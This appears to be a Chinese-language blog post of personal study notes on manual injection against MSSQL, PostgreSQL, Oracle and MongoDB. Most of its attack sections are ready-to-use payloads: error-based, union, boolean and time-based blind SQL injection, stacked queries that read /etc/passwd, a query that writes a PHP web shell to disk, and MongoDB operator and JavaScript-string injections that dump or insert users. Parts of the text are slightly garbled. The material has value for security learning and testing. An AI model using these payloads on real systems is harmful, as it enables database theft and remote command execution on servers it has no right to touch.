

0x01 前言
撰写本篇的目的是为了进一步了解一下sql注入的其他类型，mssql、postgresql、db2等等，主要是认为了解且会用手工注入才是前提也是重点，不能完全利用工具。因此写下本文来记录常规的、常见的数据库类型的相关注入payload，让自己以后遇到的时候不会懵逼。
0x02 Msssql
2.1 环境搭建
哎呀，这一块看着真麻烦，我本是想能实操就实操一下，但这么麻烦感觉还是算了，我初心只是想了解一下语句emmm，那就多用脑子想想吧。
下面都是跟着y4er师傅学习的┭┮﹏┭┮太强啦！！！
2.2 自带库介绍
1 2 3 4 5 6 7 master //用于记录所有SQL Server系统级别的信息，这些信息用于控制用户数据库和数据操作。
其中最主要的是master数据库，其中存储了所有的数据库名等，还有很多存储过程
存储过程是一组为了完成特定功能的SQL 语句集，它存储在数据库中，一次编译后永久有效，用户通过指定存储过程的名字并给出参数（如果该存储过程带有参数）来执行它。实际上就是一个封装好的函数，具有面向对象特点。
在master数据库中有master.dbo.sysdatabases视图，储存所有数据库名,其他数据库的视图则储存他本库的表名与列名。 每一个库的视图表都有syscolumns存储着所有的字段，可编程性储存着我们的函数。
mssql的存储过程天然支持多语句，为我们的注入提供了遍历。
增删改查和MySQL数据库大同小异，具体可以自行w3c。
2.3 信息搜集
先来了解下mssql中有哪些角色/权限
以下摘自官网文档
这里留着日后有需要在查看，脑子里有个大概印象
服务器级的固定角色
描述
sysadmin
sysadmin 固定服务器角色的成员可以在服务器上执行任何活动。
serveradmin
serveradmin 固定服务器角色的成员可以更改服务器范围的配置选项和关闭服务器。
securityadmin
securityadmin 固定服务器角色的成员可以管理登录名及其属性。 他们可以 GRANT、DENY 和 REVOKE 服务器级权限。 他们还可以 GRANT、DENY 和 REVOKE 数据库级权限（如果他们具有数据库的访问权限）。 此外，他们还可以重置 SQL Server 登录名的密码。 重要说明： 如果能够授予对 数据库引擎 的访问权限和配置用户权限，安全管理员可以分配大多数服务器权限。 securityadmin 角色应视为与 sysadmin 角色等效。
processadmin
processadmin 固定服务器角色的成员可以终止在 SQL Server 实例中运行的进程。
setupadmin
setupadmin 固定服务器角色的成员可以使用 Transact-SQL 语句添加和删除链接服务器。 （使用 Management Studio 时需要 sysadmin 成员资格。）
bulkadmin
bulkadmin 固定服务器角色的成员可以运行 BULK INSERT 语句。
diskadmin
diskadmin 固定服务器角色用于管理磁盘文件。
dbcreator
dbeator 固务器角色的成员可以创建、更改、删除和还原任何数据库。
puic
每个 SQL Server 登录名都属于 public 服务器角色。 如果未向某个服务器主体授予或拒绝对某个安全对象的特定权限，该用户将继承授予该对象的 public 角色的权限。 只有在希望所有用户都能使用对象时，才在对象上分配 Public 权限。 你无法更改具有 Public 角色的成员身份。 注意plic 与其他角色的实现方式不同，可通过 public 固定服务器角色授予、拒绝或调用权限。
固定数据库角色名
描述
db_owner
db_owner 固定数据库角色的成员可以执行数据库的所有配置和维护活动，还可以删除 SQL Server中的数据库。 （在 SQL 数据库 和 SQL 数据仓库中，某些维护活动需要服务器级别权限，并且不能由 db_owners执行。）
db_securityadmin
db_securityadmin 固定数据库角色的成员可以仅修改自定义角色的角色成员资格、创建无登录名的用户和管理权限。 向此角色中添加主体可能会导致意外的权限升级。
db_accessadmin
db_accessadmin 固定数据库角色的成员可以为 Windows 登录名、Windows 组和 SQL Server 登录名添加或删除数据库访问权限。
db_backupoperator
db_backupoperator 固定数据库角色的成员可以备份数据库。
db_ddladmin
db_ddladmin 固定数据库角色的成员可以在数据库中运行任何数据定义语言 (DDL) 命令。
db_datawriter
db_datawriter 固定数据库角色的成员可以在所有用户表中添加、删除或更改数据。
db_datareader
db_datareader 固定数据库角色的成员可以从所有用户表中读取所有数据。
db_denydatawriter
db_denydatawriter 固定数据库角色的成员不能添加、修改或删除数据库内用户表中的任何数据。
db_denydatareader
db_denydatareader 固定数据库角色的成员不能读取数据库内用户表中的任何数据。
我们可以用IS_SRVROLEMEMBER来判断服务器级别的固定角色
返回值
描述
0
login 不是 role 的成员。
1
login 是 role 的成员。
NULL
role 或 login 无效，或者没有查看角色成员身份的权限。
构造语句
1 2 3 4 5 6 7 8 9 10 11 and 1 = (select is_srvrolemember('sysadmin' ))and 1 = (select is_srvrolemember('serveradmin' ))and 1 = (select is_srvrolemember('setupadmin' ))and 1 = (select is_srvrolemember('securityadmin' ))and 1 = (select is_srvrolemember('diskadmin' ))and 1 = (select is_srvrolemember('bulkadmin' ))
数据库级别的应用角色用IS_MEMBER函数判断
1 SELECT IS_MEMBER('db_owner' )
再来看一些基本信息
1 2 3 4 SELECT @@version ; / / 版本SELECT user ; / / 用户SELECT DB_NAME(); / / 当前数据库名，你可以用db_name(n)来遍历出所有的数据库SELECT @@servername ; / / 主机名
那么站库分离可以这么来判断
1 select * from user where id= '1' and host_name()= @@servername ;
2.4 符号
注释符
空白符号
1 2 3 01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20 --暂时不了解为什么
运算
1 2 3 4 5 6 7 8 9 10 11 ALL 如果一组的比较都为true ，则比较结果为true AND 如果两个布尔表达式都为true ，则结果为true ；如果其中一个表达式为false ，则结果为false ANY 如果一组的比较中任何一个为true ，则结果为true BETWEEN 如果操作数在某个范围之内，那么结果为true EXISTS 如果子查询中包含了一些行，那么结果为true IN 如果操作数等于表达式列表中的一个，那么结果为true LIKE 如果操作数与某种模式相匹配，那么结果为true NOT 对任何其他布尔运算符的结果值取反OR 如果两个布尔表达式中的任何一个为true ，那么结果为true SOME 如果在一组比较中，有些比较为true ，那么结果为true
2.5 基本注入流程
此处利用mssql数据类型不一样比较报错，爆出当前数据库名
1 SELECT * FROM Fanmv_Admin WHERE AdminID= 1 and DB_NAME()> 1 ;
在将 nvarchar 值 ‘FanmvCMS’ 转换成数据类型 int 时失败。
爆表名
1 SELECT * FROM Fanmv_Admin WHERE AdminID= 1 and 1 = (SELECT TOP 1 name from sysobjects WHERE xtype= 'u' );
在将 nvarchar 值 ‘Fanmv_Admin’ 转换成数据类型 int 时失败。
此处xtype可以是下列对象类型中的一种：
缩写
全称
C
CHECK 约束
D
默认值或 DEFAULT 约束
F
FOREIGN KEY 约束
L
日志
FN
标量函数
IF
内嵌表函数
P
存储过程
PK
PRIMARY KEY 约束（类型是 K）
RF
复制筛选存储过程
S
系统表
TF
表函数
TR
触发器
U
用户表
UQ
UNIQUE 约束（类型是 K）
V
视图
X
扩展存储过程
此处的sysobjects等同于[master].[sys].[objects]
爆列名
1 SELECT * FROM Fanmv_Admin WHERE AdminID= 1 and 1 = (select top 1 name from syscolumns where id= (select id from sysobjects where name = 'Fanmv_Admin' ));
在将 nvarchar 值 ‘AdminID’ 转换成数据类型 int 时失败。
[22018] [Microsoft][SQL Server Native Client 10.0][SQL Server]在将 nvarchar 值 ‘AdminID’ 转换成数据类型 int 时失败。 (245)
爆数据
1 SELECT * FROM Fanmv_Admin WHERE AdminID= 1 and 1 = (SELECT TOP 1 AdminPass from Fanmv_Admin);
在将 varchar 值 ‘81FAAEN52MA16VBYT4Y1JJ3552BTC1640E7CF84345C86BA6’ 转换成数据类型 int 时失败。
当然，在mssql中也存在INFORMATION_SCHEMA，你也可以通过它来查询。
1 2 select * from INFORMATION_SCHEMA.TABLESselect * from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME= 'admin' and 1 = (select top 1 table_name from information_schema.tables);
判断表名更方便的一种方式是使用having 1=1，GROUP BY
1 SELECT * FROM Fanmv_Admin WHERE AdminID= 1 having 1 = 1
选择列表中的列 ‘Fanmv_Admin.AdminID’ 无效，因为该列没有包含在聚合函数或 GROUP BY 子句中。
爆出一列，将其用group by 拼接进去继续往后爆其他的
1 SELECT * FROM Fanmv_Admin WHERE AdminID= 1 GROUP BY AdminID having 1 = 1
选择列表中的列 ‘Fanmv_Admin.IsSystem’ 无效，因为该列没有包含在聚合函数或 GROUP BY 子句中。
1 SELECT * FROM Fanmv_Admin WHERE AdminID= 1 GROUP BY AdminID,IsSystem having 1 = 1
选择列表中的列 ‘Fanmv_Admin.AdminName’ 无效，因为该列没有包含在聚合函数或 GROUP BY 子句中。
以此爆出所有字段
2.6 报错注入
其实基本注入流程中用到的就是报错注入，mssql中没有报错函数，报错注入利用的就是显式或隐式的类型转换来报错
先来看隐式报错
1 select * from admin where id = 1 and (select user )> 0
user和0进行比较时就会报错
再来看显示报错，一般上显示报错用到的是cast和convert函数
1 2 select * from admin where id = 1 (select CAST (USER as int ))select * from admin where id = 1 (select convert (int ,user ))
这里再来引入一个declare
1 select * from admin where id = 1 ;declare @a varchar (2000 ) set @a = 'select convert(int,user)' exec (@a );
declare定义变量 set赋值exec执行
2.7 联合查询注入
mssql不用数字占位，因为可能会发生隐式转换，我们用null来占位，因为mssql数据库是个强类型的数据库，对数据格式比较严格。
（这里也是没搞懂发生隐式转换会如何，我猜测是转换后无法查询我们想让其查询的语句了）
1 SELECT * from users where id= 1 union select null ,null ,DB_NAME();
你也可以这样来联合报错
1 SELECT * from users where id= 1 union select null ,null , (select CAST (db_name() as int ))
2.8 布尔盲注
1 SELECT * from users where id= 1 and ascii(substring ((select top 1 name from master.dbo.sysdatabases),1 ,1 ))= 109
布尔盲注没有mysql那么多姿势，大同小异截取字符串比较
2.9 时间盲注
1 SELECT * from users where id= 1 ;if (select IS_SRVROLEMEMBER('sysadmin' ))= 1 WAITFOR DELAY '0:0:5'
waitfor delay '0:0:5'是mssql的延时语法
同样可以用字符串截取来延时注入
1 select * from users where id= 1 ;if (ascii(substring ((select top 1 name from master.dbo.sysdatabases),1 ,1 )))> 1 WAITFOR DELAY '0:0:5'
0x03 PostgreSQL
3.1 环境搭建
这里比较建议用docker搭建（如果不赶时间的话），我这里也是懒得搭建了，依旧是跟着文章走一遍
3.2 验证注入
index.php?uid=1 AND 1=1 运行正常
index.php?uid=1 AND 1=2 运行异常
3.3 报错注入
这里也没去查，猜测是cast函数将select查询出的数据转换为了as语句后面的numeric数字型，导致报错
获取版本号：
1 select * from tbuser where id= 1 AND 7778 = CAST ((SELECT version())::text AS NUMERIC )
获取 Schemas 名称
1 select * from tbuser where id= 1 AND 7778 = CAST ((SELECT schemaname FROM pg_tables limit 1 )::text AS NUMERIC )
3.4 时间盲注
1 AND 6489 = (SELECT 6489 FROM PG_SLEEP(5 )) / / 延时 5 秒
3.5 堆叠注入
（多语句查询，stacked queries）
1 ?uid= 1 ;select PG_SLEEP(5 )
3.6 联合注入
1 2 3 4 5 ?uid= 1 order by 1 ,2 ,3 运行正常= 1 order by 1 ,2 ,3 ,4 运行异常，获取字段数 3 = 1 UNION ALL SELECT NULL ,('11111' ),NULL
这里依旧是NULL而不用数字占用
获取数据库结构和内容，此处均为联合查询
获取模式名称（schemaname）名称
1 ?uid= 1 UNION SELECT NULL ,COALESCE (CAST (schemaname AS CHARACTER (10000 )),(CHR(32 ))),NULL FROM pg_tables
语法解析：
1 2 3 COALESCE(expression[,n]) coalesce 函数返回参数（列名）中第一个非 NULL 值的字段值，注意不是为空''
简化：
1 ?uid= 1 UNION SELECT NULL ,schemaname,NULL FROM pg_tables
用户创建的数据库默认模式名称（schemaname）为 public
获取数据表名称
1 uid= 1 UNION ALL SELECT NULL ,tablename,NULL FROM pg_tables WHERE schemaname IN ('public' )
获取表字段名称
1 ?uid= 1 UNION SELECT NULL ,attname,NULL FROM pg_namespace,pg_type,pg_attribute b JOIN pg_class a ON a.oid= b.attrelid WHERE a.relnamespace= pg_namespace.oid AND pg_type.oid= b.atttypid AND attnum> 0 AND a.relname= 'tbuser' AND nspname= 'public' —
获取表内容
1 ?uid= 1 UNION ALL SELECT NULL ,id|| ',' || username|| ',' || passwd,NULL FROM public.tbuser
测列数：
1 2 order by 4 and 1 = 2 union select null ,null ,null ,null
测显位：第 2，3
1 2 3 4 and 1 = 2 union select 'null' ,null ,null ,null 错误and 1 = 2 union select null ,'null' ,null ,null 正常and 1 = 2 union select null ,null ,'null' ,null 正常and 1 = 2 union select null ,null ,null ,'null' 错误
获取信息：
1 2 3 and 1 = 2 UNION SELECT null ,version(),null ,null and 1 = 2 UNION SELECT null ,current_user ,null ,null and 1 = 2 union select null ,current_database(),null ,null
获取数据库名：
1 and 1 = 2 union select null ,string_agg(datname,',' ),null ,null from pg_database
获取表名：
1 2 3 1 、and 1 = 2 union select null ,string_agg(tablename,',' ),null ,null from pg_tables where schemaname= 'public' 2 、and 1 = 2 union select null ,string_agg(relname,',' ),null ,null from pg_stat_user_tables
获取列名：
1 and 1 = 2 union select null ,string_agg(column_name,',' ),null ,null from information_schema.columns where table_name= 'reg_users'
获取数据：
1 and 1 = 2 union select null ,string_agg(username,',' )from reg_users
3.7 文件或目录操作
PostgreSQL 中部分内置函数、表
列目录——只能列安装目录下的文件
1 ?uid= 1 union select NULL ,NULL ,pg_ls_dir('./' )
读文件
这里是堆叠注入，注意分号
1 ?uid= 1 ;CREATE TABLE passwd(t TEXT);COPY passwd FROM '/etc/passwd' ;SELECT NULL ,t,NULL FROM passwd;
将要查询的数据放进了新建的t表，并最终读取
写文件
1 ?uid= 1 ;DROP TABLE pass;（这里需要为数据库存在的表）CREATE TABLE hacktb (t TEXT);INSERT INTO hacktb(t) VALUES ('<?php @system("$_GET[cmd]");?>' );COPY hacktb(t) TO '/tmp/hack.php' ;
0x04 Oracle
4.1 基本概念
Oracle和MySQL数据库语法大致相同，结构不太相同。最大的一个特点就是oracle可以调用Java代码。
对于“数据库”这个概念而言，Oracle采用了”表空间“的定义。数据文件就是由多个表空间组成的，这些数据文件和相关文件形成一个完整的数据库。当数据库创建时，Oracle 会默认创建五个表空间：SYSTEM、SYSAUX、USERS、UNDOTBS、TEMP：
SYSTEM：看名字就知道这个用于是存储系统表和管理配置等基本信息
SYSAUX：类似于 SYSTEM，主要存放一些系统附加信息，以便减轻 SYSTEM 的空间负担
UNDOTBS：用于事务回退等
TEMP：作为缓存空间减少内存负担
USERS：就是存储我们定义的表和数据
在Oracle中每个表空间中均存在一张dual表，这个表是虚表，并没有实际的存储意义，它永远只存储一条数据，因为Oracle的SQL语法要求select后必须跟上from，所以我们通常使用dual来作为计算、查询时间等SQL语句中from之后的虚表占位，也就是select 1+1 from dual。
再来看Oracle中用户和权限划分：Oracle 中划分了许多用户权限，权限的集合称为角色。例如 CONNECT 角色具有连接到数据库权限，RESOURCE 能进行基本的增删改查，DBA 则集合了所有的用户权限。在创建数据库时，会默认启用 sys、system 等用户：
sys：相当于 Linux 下的 root 用户。为 DBA 角色
system：与 sys 类似，但是相对于 sys 用户，无法修改一些关键的系统数据，这些数据维持着数据库的正常运行。为 DBA 角色。
public：public 代指所有用户（everyone），对其操作会应用到所有用户上（实际上是所有用户都有 public 用户拥有的权限，如果将 DBA 权限给了 public，那么也就意味着所有用户都有了 DBA 权限）
4.2 基本语法
1 2 3 4 5 6 select column , group_function(column )from table where condition ]group by group_by_expression]having group_condition]order by column ];
Oracle要求select后必须指明要查询的表名，可以用dual。
Oracle使用 || 拼接字符串，MySQL中为或运算。
单引号和双引号在Oracle中虽然都是字符串，但是双引号可以用来消除关键字，比如sysdate。
Oracle中limit应该使用虚表中的rownum字段通过where条件判断。

Oracle中没有空字符，''和’null’都是null，而MySQL中认为''仍然是一个字符串。
Oracle对数据格式要求严格，比如union select的时候，放到下文讲。
Oracle的系统表：
1 2 3 4 5 6 - dba_tables : 系统里所有的表的信息，需要DBA权限才能查询
DBA_TABLES >= ALL_TABLES >= USER_TABLES
4.3 信息搜集
从现在开始，我们以注入点http://localhost:8080/oracleInject/index?username=admin为例讲解。代码随便写一个jsp网页就行了。
获取数据库版本信息
1 http:/ / localhost:8080 / oracleInject/ index?username= admin' union select 1,' a',(SELECT banner FROM v$version WHERE banner LIKE ' Oracle% 25 ') from dual -- +
获取操作系统版本信息
1 http:/ / localhost:8080 / oracleInject/ index?username= admin' union select 1,' a',(SELECT banner FROM v$version where banner like ' TNS% 25 ') from dual -- +
获取当前数据库
1 http:/ / localhost:8080 / oracleInject/ index?username= admin' union select 1,' a',(SELECT name FROM v$database) from dual -- +
获取数据库用户
获取所有数据库用户
1 2 SELECT username FROM all_users;SELECT name FROM sys.user$;
获取当前用户权限
1 SELECT * FROM session_privs
获取当前用户有权限的所有数据库
1 SELECT DISTINCT owner, table_name FROM all_tables
获取表，all_tables类似于MySQL中的information_schema.tables，里面的结构可以自己构造sql语句。
1 SELECT * FROM all_tables;
获取字段名
1 SELECT column_name FROM all_tab_columns
在Oracle启动时，在 userenv 中存储了一些系统上下文信息，通过 SYS_CONTEXT 函数，我们可以取回相应的参数值。包括当前用户名等等。
1 SELECT SYS_CONTEXT（'USERENV' ，'SESSION_USER' ） from dual;
更多可用参数说明可以查阅 Oracle 提供的文档：SYS_CONTEXT
4.4 注入类型
4.4.1 联合查询
order by 猜字段数量，union select进行查询，需要注意的是每一个字段都需要对应前面select的数据类型(字符串/数字) 。所以我们一般先使用null字符占位，然后逐位判断每个字段的类型，比如：
1 2 3 4 http:/ / localhost:8080 / oracleInject/ index?username= admin' union select null,null,null from dual -- 正常 http://localhost:8080/oracleInject/index?username=admin' union select 1 ,null ,null from dual / / localhost:8080 / oracleInject/ index?username= admin' union select 1,2,null from dual -- 第二个字段为数字时错误 http://localhost:8080/oracleInject/index?username=admin' union select 1 ,'asd' ,null from dual
查数据库版本和用户名
1 http:/ / localhost:8080 / oracleInject/ index?username= admin' union select 1,(select user from dual),(SELECT banner FROM v$version where banner like ' Oracle% 25 ') from dual --
查当前数据库
1 http:/ / localhost:8080 / oracleInject/ index?username= admin' union select 1,(SELECT global_name FROM global_name),null from dual --
查表，wmsys.wm_concat()等同于MySQL中的group_concat()，在11gr2和12C上已经抛弃，可以用LISTAGG()替代
1 http:/ / localhost:8080 / oracleInject/ index?username= admin' union select 1,(select LISTAGG(table_name,' ,')within group(order by owner)name from all_tables where owner=' SYSTEM '),null from dual --
但是LISTAGG()返回的是varchar类型，如果数据表很多会出现字符串长度过长的问题。这个时候可以使用通过字符串截取来进行。
查字段
1 http:/ / localhost:8080 / oracleInject/ index?username= admin' union select 1,(select column_name from all_tab_columns where table_name=' TEST' and rownum=2),null from dual --
有表名字段名出数据就不说了。
4.5 报错注入
4.5.1 utl_inaddr.get_host_name
1 select utl_inaddr.get_host_name((select user from dual)) from dual;
11g之后，使用此函数的数据库用户需要有访问网络的权限
1 select ctxsys.drithsx.sn(1 , (select user from dual)) from dual;
处理文本的函数，参数错误时会报错。
4.5.3 CTXSYS.CTX_REPORT.TOKEN_TYPE
1 select CTXSYS.CTX_REPORT.TOKEN_TYPE((select user from dual), '123' ) from dual;
4.5.4 XMLType
1 http:/ / localhost:8080 / oracleInject/ index?username= admin' and (select upper(XMLType(chr(60)||chr(58)||(select user from dual)||chr(62))) from dual) is not null --
注意url编码，如果返回的数据有空格的话，它会自动截断，导致数据不完整，这种情况下先转为 hex，再导出。
4.5.6 dbms_xdb_version.checkin
1 select dbms_xdb_version.checkin((select user from dual)) from dual;
4.5.7 dbms_xdb_version.makeversioned
1 select dbms_xdb_version.makeversioned((select user from dual)) from dual;
4.5.8 dbms_xdb_version.uncheckout
1 select dbms_xdb_version.uncheckout((select user from dual)) from dual;
4.5.9 dbms_utility.sqlid_to_sqlhash
1 SELECT dbms_utility.sqlid_to_sqlhash((select user from dual)) from dual;
1 select ordsys.ord_dicom.getmappingxpath((select user from dual), 1 , 1 ) from dual;
4.5.11 UTL_INADDR.get_host_name
1 select UTL_INADDR.get_host_name((select user from dual)) from dual;
4.5.12 UTL_INADDR.get_host_address
1 select UTL_INADDR.get_host_name('~' || (select user from dual)|| '~' ) from dual;
剩下的参考下面的链接吧，这里只是做个记录
0x05 MongoDB
5.1 NoSQL与MongoDB基本概念
NoSQL
NoSQL，指的是非关系型的数据库。NoSQL有时也称作Not Only SQL的缩写，是对不同于传统的关系型数据库的数据库管理系统的统称。
NoSQL用于超大规模数据的存储。（例如谷歌或Facebook每天为他们的用户收集万亿比特的数据）。这些类型的数据存储不需要固定的模式，无需多余操作就可以横向扩展。
NoSQL 数据库分类
类型
部分代表
特点
列存储
HbaseCassandraHypertable
顾名思义，是按列存储数据的。最大的特点是方便存储结构化和半结构化数据，方便做数据压缩，对针对某一列或者某几列的查询有非常大的IO优势。
文档存储
MongoDBCouchDB
文档存储一般用类似json的格式存储，存储的内容是文档型的。这样也就有机会对某些字段建立索引，实现关系数据库的某些功能。
key-value存储
Tokyo Cabinet / TyrantBerkeley DBMemcacheDBRedis
可以通过key快速查询到其value。一般来说，存储不管value的格式，照单全收。（Redis包含了其他功能）
图存储
Neo4JFlockDB
图形关系的最佳存储。使用传统关系数据库来解决的话性能低下，而且设计使用不方便。
对象存储
db4oVersant
通过类似面向对象语言的语法操作数据库，通过对象的方式存取数据。
xml数据库
Berkeley DB XMLBaseX
高效的存储XML数据，并支持XML的内部查询语法，比如XQuery,Xpath。
MongoDB
MongoDB属于NoSQL数据库的一种，是由C++语言编写的一个基于分布式文件存储的开源数据库系统，旨在为Web应用提供可扩展的高性能数据存储解决方案。在高负载的情况下，添加更多的节点，可以保证服务器性能。
MongoDB 将数据存储为一个文档，数据结构由键值(key=>value)对组成。MongoDB 文档类似于 JSON 对象 。字段值可以包含其他文档，数组及文档数组。
MongoDB概念解析
和关系型数据库的相关概念不一样，在MongoDB中基本的概念是文档、集合、数据库，如下表：
SQL术语/概念
MongoDB术语/概念
解释/说明
database
database
数据库
table
collection
数据库表/集合
row
document
数据记录行/文档
column
field
数据字段/域
index
index
索引
table joins
表连接,MongoDB不支持
primary key
primary key
主键,MongoDB自动将_id字段设置为主键
5.2 PHP操作MongoDB
PHP下操作MongoDB大致分为两种方式，对应有不同的注入攻击方式。
使用MongoDB类中相应的方法
使用的Demo大致如下，此时传递进入的参数是一个数组：
1 2 3 4 5 6 7 8 9 <?php $mongo = new MongoClient ();$db = $mongo ->myinfo; $coll = $db ->test; $coll ->save (); $coll ->find (); $coll ->remove (); $coll ->update (); ?>
确保连接及选择一个数据库
为了确保正确连接，你需要指定数据库名，如果数据库在MongoDB中不存在，MongoDB会自动创建。
示例代码如下，访问页面会直接返回数据库名test：
1 2 3 4 5 <?php
1. 创建集合
创建集合的代码片段如下：
1 2 3 4 5 6 <?php $m = new MongoClient (); $db = $m ->test; $collection = $db ->createCollection ("Mi1k" );echo "集合创建成功：" .$collection ;?>
在数据库中确认确实创建成功：
2. 插入文档
在MongoDB中使用insert()方法插入文档，代码片段如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 <?php $m = new MongoClient (); $db = $m ->test; $collection = $db ->Mi1k; $document = array ( "title" => "Hello" , "description" => "Just a test." , "likes" => 100 ,"url" => "https://www.mi1k7ea.com/" ,"by" , "mi1k7ea" $collection ->insert ($document );echo "数据插入成功" ;?>
插入成功后，到数据库中确认，这里pretty()方法以格式化的方式来显示所有文档。：
查找文档
使用find()方法来读取集合中的文档，代码片段如下：
1 2 3 4 5 6 7 8 9 10 11 <?php $m = new MongoClient (); $db = $m ->test; $collection = $db ->Mi1k; $cursor = $collection ->find ();foreach ($cursor as $document ) {echo $document ["title" ] . "\n" ;?>
访问即可看到查询的标题：
更新文档
使用update()方法来更新文档，代码片段如下，将标题内容从Hello改为World：
1 2 3 4 5 6 7 8 9 10 11 12 13 <?php $m = new MongoClient (); $db = $m ->test; $collection = $db ->Mi1k; $collection ->update (array ("title" =>"Hello" ), array ('$set' =>array ("title" =>"World" )));$cursor = $collection ->find ();foreach ($cursor as $document ) {echo $document ["title" ] . "\n" ;?>
修改后显示改后的标题内容，客户端确认是修改了：
删除文档
使用remove()方法来删除文档。
代码片段如下，将移除’title’为’World’的一条数据记录：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 <?php $m = new MongoClient (); $db = $m ->test; $collection = $db ->Mi1k; $collection ->remove (array ("title" =>"World" ), array ("justOne" => true ));$cursor = $collection ->find ();foreach ($cursor as $document ) {echo $document ["title" ] . "\n" ;?>
访问之后，即删除了title为World的文档，在数据库中查不到Mi1k集合的文档内容了。
使用execute()函数执行字符串
使用的Demo大致如下，此时传进方法execute()的参数就是字符串变量$query（特别的，此时的字符串书写语法为JS的书写语法）：
1 2 3 4 5 6 7 8 9 <?php $mongo = new mongoclient ();$db = $mongo ->myinfo; $query = "db.table.save({'newsid':1})" ; $query = "db.table.find({'newsid':1})" ; $query = "db.table.remove({'newsid':1})" ; $query = "db.table.update({'newsid':1},{'newsid',2})" ; 改$result = $db ->execute ($query );?>
5.3 PHP MongoDB注入攻击
不同编程语言环境下的MongoDB注入情景没啥差别，这里主要对PHP中实现的MongoDB进行详细分析，理解原理和场景就OK，其他语言就大致给Demo就好。
在此之前，我们需要先初始化数据库、赋给一些用户数据用于后面的Demo使用，这里随机添加10个用户，最后一个test用户为公共用户、大家都知道的：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 <?php $m = new MongoClient (); $db = $m ->test; $collection = $db ->test; $ori = '0123456789abcdefghijklmnopqrstuvwsyz' ;for ($i =0 ; $i < 10 ; $i ++) { $str = '' ;for ($j =0 ; $j < 10 ; $j ++) { $str .= $ori [rand (0 , strlen ($ori )-1 )];$data = array ('userid' =>$i ,'username' =>'user' .$i ,'password' =>$str $collection ->insert ($data );echo '添加成功<br>' ;$data = array ('userid' =>10 ,'username' =>'test' ,'password' =>'test' $collection ->insert ($data );echo '用户test添加成功' ;?>
访问触发一遍即可创建成功：
PHP数组注入/重言式注入
一个数组绑定的查询代码如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 <?php $mongo = new MongoClient (); $db = $mongo ->test; $coll = $db ->test; $username = $_GET ['username' ];$password = $_GET ['password' ];$data = array ('username' =>$username ,'password' =>$password $data = $coll ->find ($data );$count = $data ->count ();if ($count >0 ) {foreach ($data as $user ) {echo 'username:' .$user ['username' ]."</br>" ;echo 'password:' .$user ['password' ]."</br>" ;else {echo '未找到' ;?>
当我们用公共用户test输入时，显示出username和password：
分析一下，这里我输入的是?username=test&password=test，然后进入到MongoDB中的语句其实为db.test.find({username:'test',password:'test'});。
若此时我们以PHP数组的形式输入?username[a]=test&password=test，源码中$data的值便为：
1 2 3 4 $data = array ('username' = > array ('a' = > 'test' ),'password' = > 'test'
最后实际MongoDB执行的语句为db.test.find({username:{a:'test'},password:'test'});。
因此，我们就可以利用这个特性往数组的键名传递一个操作符（大于，小于，等于，不等于等等），从而达到利用的目的：
1 ?username[$ne]=1&password[$ne]=1
$ne即not equal不等于，转换到MongoDB语句即为：
1 db.test.find({username:{'$ne':'1'},password:{'$ne':'1'}});
而该语句相当于：
1 select * from test where username!= '1' and password!= '1' ;
直接爆出了所有数据库用户信息：
execute()执行拼接字符串导致的注入/联合查询注入
代码如下，为了方便查看注入的语句，我这里添加了输出查询语句：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 <?php $username = $_GET ['username' ];$password = $_GET ['password' ];$query = "var data = db.test.findOne({username:'$username ',password:'$password '});return data;" ;echo $query .'<br>' ;$mongo = new MongoClient ();$db = $mongo ->test;$data = $db ->execute ($query );if ($data ['ok' ] == 1 ) {if ($data ['retval' ]!=NULL ) {echo 'username:' .$data ['retval' ]['username' ]."</br>" ;echo 'password:' .$data ['retval' ]['password' ]."</br>" ;else {echo '未找到' ;else {echo $data ['errmsg' ];?>
可以看到，是直接拼接起来的字符串然后传入execute()函数中执行。
正常访问：
添加个单引号试试，发现会报错：
此时可以利用注释或闭合的方法针对性地实现注入就可以了。
利用注释
按照输出的提示语句以及报错信息逐个尝试，目的是成功注释掉后面的password部分语句并返回成功，当输入如下payload时成功返回：
1 ?username=test'});return true;})//&password=test
这里返回username和password两项，按照MongoDB数据的Json格式，我们可以让其返回Json键值对看看：
没问题，剩下的就是各种payload尝试了。
爆数据库版本：
1 ?username=test'});return {username:db.version(),password:1};})//&password=test
爆当前数据库所有集合，这里因为db.getCollectionNames()返回的是数组、需要用tojson()转换为字符串，另外MongoDB函数区分大小写：
1 ?username=test'});return {username:tojson(db.getCollectionNames()),password:1};})//&password=test
爆其他集合第一条数据，我这里本地新建user集合并插入文档，若想继续遍历爆其他信息只需修改数组下标即可：
1 ?username=test'});return {username:tojson(db.user.find()[0]),password:1};})//&password=test
往user集合插入新用户数据：
1 ?username=test'});return {username:db.user.insert({'username':'mi1k7ea','password':'mi1k7ea'}),password:1};})//&password=test
利用闭合
构造如下payload，用于闭合后面的语句使语法正确：
1 ?username=test'});return {username:db.version(),password:1};var b=({a:'1&password=test
剩下的其他利用和前面的一样，这里只说个重点的，在无回显的情况下，我们就需要用到盲注技巧，这里用到的盲注是基于时间的盲注，在高版本下MongoDB添加了sleep()函数，我们利用这个sleep()函数和闭合的技巧来实现基于时间的盲注（这种盲注技巧仅在闭合的情况下可行，本人在注释的情况下并未成功）：
1 ?username=test'});if (db.version()>"0"){sleep(10000);exit;}var b=({a:'1&password=test
若数据库版本大于0，则sleep 10s：
剩下的就是进阶的了，可参考下面的
0x06 总结
emmm本次文章呢，旨在初步了解各种常用数据库的常规注入语句，进阶的内容的很少（但我心里认为还是有必要深度学习一下的）不过我感觉学好MySQL的话也是很有帮助的，剩下的可以遇到的时候百度什么的。
